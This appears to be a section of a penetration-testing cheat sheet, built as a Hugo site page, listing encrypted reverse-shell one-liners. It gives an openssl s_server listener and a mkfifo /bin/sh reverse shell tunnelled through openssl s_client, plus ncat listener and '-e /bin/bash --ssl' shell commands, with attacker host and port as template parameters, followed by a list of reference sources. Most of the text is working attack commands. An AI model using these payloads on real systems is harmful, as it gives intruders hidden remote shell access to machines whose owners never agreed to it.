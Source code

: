 #### Listener

```sh
openssl s_server -key key.pem -cert cert.pem -port {{< param "war.lport" >}}
```
{{<details "Parameters"></details>}}

#### Reverse Shell

```sh
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -connect {{< param "war.lhost" >}}:{{< param "war.lport" >}} > /tmp/s 2> /dev/null; rm /tmp/s
```

{{<details "Parameters"></details>}}

### Ncat [^ncat]

#### Listener

```sh
ncat -nvlp {{< param "war.lport" >}} --ssl
```

#### Reverse Shell

```sh
ncat -nv {{< param "war.lhost" >}} {{< param "war.lport" >}} -e /bin/bash --ssl
```

{{<details "Parameters"></details>}}

[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
